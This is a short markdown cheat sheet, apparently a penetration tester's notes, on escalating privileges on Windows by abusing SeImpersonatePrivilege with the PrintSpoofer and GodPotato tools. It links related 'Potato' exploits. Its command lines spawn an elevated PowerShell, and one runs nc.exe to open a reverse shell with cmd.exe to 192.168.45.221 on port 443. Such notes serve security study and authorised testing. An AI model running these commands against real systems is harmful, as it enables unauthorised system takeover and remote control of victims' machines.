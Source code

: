 # SeImpersonatePrivilege

[PrintSpoofer](https://github.com/itm4n/PrintSpoofer/)

```powershell
.\PrintSpoofer64.exe -i -c powershell.exe
```

[GodPotato](https://github.com/BeichenDream/GodPotato) - Windows 2012 - 2022 or Windows 8 - 11

```powershell
.\GodPotato.exe -cmd "cmd /c whoami"
.\GodPotato.exe -cmd "C:\ProgramData\System\nc.exe 192.168.45.221 443 -e cmd.exe"
```

[RoguePotato](https://github.com/antonioCoco/RoguePotato)

[JuicyPotato](https://github.com/ohpe/juicy-potato)
